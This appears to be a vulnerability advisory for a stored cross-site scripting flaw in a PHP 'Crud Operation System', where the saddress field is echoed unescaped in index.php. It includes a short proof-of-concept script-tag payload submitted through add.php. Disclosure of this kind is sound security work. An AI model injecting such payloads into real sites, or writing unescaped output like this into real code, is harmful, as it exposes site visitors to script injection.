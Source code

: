 # Crud Operation System has Based Cross Site Scripting vulnerability in index.php

## supplier 
https://code-projects.org/crud-operation-system-in-php-with-source-code/
## Vulnerability file
index.php and saddress parameter.

## describe
There are unrestricted cross site scripting attacks and injection attacks in the Crud Operation System. The controllable parameters are as follows: saddress. This function will execute the saddress parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**

Querying data from the database and storing it in the $row [] array, and the echo $row ['saddress'] is not filtered, resulting in the execution of XSS statements.

```
                <td><?php echo $row['saddress']; ?></td>
```

![image-20241124165455744](xss12(未交).assets/image-20241124165455744.png)

## POC

asset add.php

```
http://localhost/crud/add.php
```

insert saddress parameter into database.

```
"/><script>alert(111);</script>
```

![image-20241124170005628](xss12(未交).assets/image-20241124170005628.png)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://localhost/crud/index.php
```

**Result**

![image-20241124170033260](xss12(未交).assets/image-20241124170033260.png)

 